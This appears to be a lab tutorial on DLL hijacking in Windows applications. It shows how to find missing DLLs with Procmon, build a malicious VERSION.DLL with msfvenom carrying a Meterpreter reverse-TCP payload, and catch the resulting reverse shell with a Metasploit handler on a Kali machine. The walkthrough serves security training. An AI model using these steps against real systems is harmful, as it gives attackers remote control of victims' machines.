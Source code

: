# DLL Hijacking

DLL files contains executable code that can be used by other applications. When an application needs to use this DLL file, it has to search for it if the absolute path is not provided. If an attacker replaces his own DLL file with the name that the application is searching for, then the application loads the attacker’s DLL and executes the malicious code. This is known as DLL Hijacking Attack.

## Tools Required:
- VMWare, Procmon (Process Monitor), MsfVenom

## Lab Setup
- Create two virtual machine:
  - **Windows OS** for executing exe application *(Victim Machine)*
  - **Kali Linux** for obtain system access using reverse shell handler *(Attacker Machine)*

## POC

> **Step-1: Identifying Vulnerable DLLs that we can Hijack.**
 - Start Application
 - Open Procmon tool 
 - Apply three filters in Procmon (Menu Filter -> Filter)
     1. Process Name = contains = "Select Your Application Name" -> Add
     2. Path         = contains = ".dll"                         -> Add 
     3. Result       = contains = "NAME NOT FOUND"               -> Add
   
 - Click OK for apply filters.
> **Step-2: Closed the application and Re-open that application so all the process according to filter will show in** ***Procmon***  

> **Step-3: Now find the Dlls which are trying to load from current working application and is not available** ***(e.g: VERSION.DLL)*** 
            Application is trying to load this DLL but not able to find in to the application directory.
            
> **Step-4: Next step is create malicious DLL named VERSION.DLL using** ***MsfVenom (Kali Linux)***

    ``$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.252.130 LPORT=8888 -f dll > VERSION.dll``

> **Step-5: Now create reverse shell handler with msfconsole**

    ``$ sudo msfconsole
      
      msf > use exploit/multi/handler

      msf exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
      payload => windows/meterpreter/reverse_tcp

      msf exploit(multi/handler) > set LHOST 192.168.252.130  (Replace your attacker machine IP i.e Kali Linux IP)
      LHOST => 192.168.252.130

      msf exploit(multi/handler) > set LPORT 8888
      LPORT => 8888

      msf exploit(multi/handler) > exploit  
    ``
   Done..! 

> **Step-6: Reverse shell handler created, now paste malicious DLL(created through Step-4) in to the application directory and launch application**

   As you can see application is trying to loan the malicious DLL without checking it and we got system reverse shell.

